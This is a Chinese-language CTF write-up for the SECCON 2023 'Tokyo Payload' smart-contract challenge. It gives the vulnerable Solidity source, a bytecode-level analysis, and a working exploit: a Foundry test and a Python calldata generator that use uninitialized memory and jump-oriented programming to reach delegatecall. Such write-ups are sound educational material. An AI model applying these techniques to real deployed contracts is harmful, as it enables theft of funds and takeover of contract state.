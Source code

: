 ```yaml
---
title: Blockchain - Tokyo Payload
description: 2023 | SECCON | Misc
tags:
    - smart contract
    - evm
    - bytecode
    - jump oriented programming
---
```


## 题目

What is Solidity?

> nc tokyo-payload.seccon.games 31337

??? note "Setup.sol"

    ```js
    // SPDX-License-Identifier: Apache-2.0
    pragma solidity 0.8.21;

    import {TokyoPayload} from "./TokyoPayload.sol";

    contract Setup {
        TokyoPayload public tokyoPayload;

        constructor() {
            tokyoPayload = new TokyoPayload();
        }

        function isSolved() public view returns (bool) {
            return tokyoPayload.solved();
        }
    }
    ```

??? note "TokyoPayload.sol"

    ```js
    // SPDX-License-Identifier: Apache-2.0
    pragma solidity 0.8.21;

    contract TokyoPayload {
        bool public solved;
        uint256 public gasLimit;

        function tokyoPayload(uint256 x, uint256 y) public {
            require(x >= 0x40);
            resetGasLimit();
            assembly {
                calldatacopy(x, 0, calldatasize())
            }
            function()[] memory funcs;
            uint256 z = y;
            funcs[z]();
        }

        function load(uint256 i) public pure returns (uint256 a, uint256 b, uint256 c) {
            assembly {
                a := calldataload(i)
                b := calldataload(add(i, 0x20))
                c := calldataload(add(i, 0x40))
            }
        }

        function createArray(uint256 length) public pure returns (uint256[] memory) {
            return new uint256[](length);
        }

        function resetGasLimit() public {
            uint256[] memory arr;
            gasLimit = arr.length;
        }

        function delegatecall(address addr) public {
            require(msg.sender == address(0xCAFE));
            (bool success,) = addr.delegatecall{gas: gasLimit & 0xFFFF}("");
            require(success);
        }
    }
    ```

## 解题思路

> TokyoPayload: [Graph - Bytegraph - Smart-Contract Analysis](https://bytegraph.xyz/bytecode/6442127989179d00d4a0eb3a93dd092e/graph)

- 目标是让 `solved` 为 `true`，而 `TokyoPayload` 没有直接设置 `solved` 的语句，显然需要借助 `delegatecall`
- 地址检查限制了 `TokyoPayload.delegatecall()` 的调用，则只能通过 `tokyoPayload()` 跳转
- 分配给 `delegatecall` 的 gas 取决于通过 `arr.length` 设置的 `gasLimit`，而 `arr` 是尚未初始化的内存数组，那么即读取 `MEM[0x60]` 中的值。`calldatacopy` 可以覆盖 `MEM[0x60]` 中的值，使得 `arr.length > 0`，由此可确定 $x\in[40_{16}, 80_{16})$（且由于每次调用 `tokyoPayload()` 都会重设 `gasLimit`，需要通过一次调用来完成多次跳转）
- `DELEGATECALL` 所在块 `JUMPDEST` 的地址为 `0x1a3`，从栈顶到栈底调用栈应满足 `[目标地址addr, 下一跳转地址, ...]`
    - 希望代理调用结束后直接结束本次交易，下一跳转地址可以选择 `0x93`
    ![DELEGATECALL block](img/tokyo_payload01.jpg)

- 可通过 `calldataload` 将所需参数压入栈中，构造合适的调用栈。三个 `CALLDATALOAD` 所在块 `JUMPDEST` 的地址为 `0xd0`，从栈顶到栈底调用栈应满足 `[起始地址i, 下一跳转地址, ...]`。执行到 `0xdf` 时，栈中元素为 `[下一跳转地址, c, b, a, ...]`
- 调用 `tokyoPayload()` 首次执行到函数跳转前，即 `0x18e JUMP`，对应源码 `funcs[z]()`，元素从栈顶到栈底依次为 `[0x18f, y, 0x60, y, x, ...]`
- 在内存覆盖完成后，需要再次调用 `resetGasLimit()`，可以选择 `0x153 JUMPDEST`，此时 `y` 对应栈顶元素 `STACK[0]`，`x` 对应 `STACK[1]`
- 由于需要使用 `SSTORE` 且对应 cold slot，至少需要 22100 gas，`tokyoPayload()` 的函数签名为 `0x40c3` (16579)，可以设 `x` 为 `0x7B` (0x80 - 5)，这样 `delegatecall` 的 `gasLimit` 为 `0xc300`
- 另外，`0x17f` 对应的块可以对栈结构进行微调，可用于跳转 `0xd0` 前，改变栈顶参数 `i`<br>
![0x17f JUMPDEST](img/tokyo_payload02.jpg)

### Exploit

1. 调用 `tokyoPayload()`，覆盖内存，`funcs[z]()` 为 `0x17f`
2. `0x17f` `MEM[0x20 * 0x18f + 0x20 + y] = 0xd0`，执行完后从栈顶到栈底 `[0xd0, 0x60, y, ...]`，由此 `y` 为 `0x153`
3. `0xd0` 构造栈，`b` 对应新的 `x`，`c` 对应新的 `y`
4. `0x153` 重设 `gasLimit`，下一跳转地址 `0x1a3` 对应 `y`，`funcs[z]()` 为 `0xd0`
5. `0xd0` 构造调用栈
6. `0x1a3` 代理调用

```js
contract Logic {
    fallback() external payable {
        assembly {
            sstore(0, 1)
        }
    }
}

contract TokyoPayloadTest is Test {

    TokyoPayload public tokyoPayload;
    address logic;

    function setUp() public {
        tokyoPayload = new TokyoPayload();
        logic = address(new Logic());
    }

    function testSolve() public {
        string[] memory inputs = new string[](3);
        inputs[0] = "python3";
        inputs[1] = "script/generate.py";
        inputs[2] = Strings.toHexString(logic);
        bytes memory data = vm.ffi(inputs);
        (bool s, ) = address(tokyoPayload).call(data);
        require(s);
        require(tokyoPayload.solved());
    }
}
```

```py
import sys

def place(offset, value: int):
    global data
    if l := len(data) // 2 < offset:
        data += '00' * (offset - l + 0x20)
    data = data[: offset * 2] + f'{value:064x}' + data[(offset + 0x20) * 2:]

target_addr = int(sys.argv[1], 16)
data = '000040c3'   # sig
data += f'{0x7b:064x}'  # x
data += f'{0x153:064x}' # y
place(0x4 + 0x153 * 0x20 + 1, 0x17f)   # funcs[0x153] = 0x17f
place(0x20 * 0x18f + 0x20 + 0x153 - 0x7b, 0xd0) # MEM[0x20 * 0x18f + 0x20 + y] = 0xd0
place(0x60 + 0x20, 0x7c) # b: new_x
place(0x60 + 0x40, 0x1a3) # c: new_y
place(0x4 + 0x1a3 * 0x20, 0xd0)   # funcs[0x1a3] = 0xd0
place(0x18f + 0x20, 0x93)   # b: STOP JUMPDEST
place(0x18f + 0x40, target_addr)   # c: DELEGATECALL target
print(data)
```

## 参考资料

- [Layout in Memory — Solidity documentation](https://docs.soliditylang.org/en/latest/internals/layout_in_memory.html)
- [Debugger - Foundry Book](https://book.getfoundry.sh/forge/debugger)